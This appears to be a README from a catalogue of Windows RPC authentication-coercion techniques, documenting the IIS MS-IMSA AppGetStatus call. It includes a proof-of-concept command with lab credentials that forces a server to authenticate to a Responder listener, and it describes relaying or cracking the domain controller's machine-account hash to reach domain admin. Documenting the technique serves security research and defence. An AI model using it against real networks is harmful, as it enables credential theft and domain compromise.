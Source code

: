 # MS-IMSA - Remote call to AppGetStatus (opnum 6)

## Summary

 - **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

 - **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`AppGetStatus`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/5435363f-a542-4d61-a7d7-7cf3e3bafe92)

 - **Function operation number**: `6`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`AppGetStatus`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/5435363f-a542-4d61-a7d7-7cf3e3bafe92) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
AppGetStatus('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AppGetStatus(
   [in, unique, string] LPCWSTR szMDPath,
   [out] DWORD* pdwAppStatus
 );
```

## References

 - Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

 - Documentation of function `AppGetStatus`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/5435363f-a542-4d61-a7d7-7cf3e3bafe92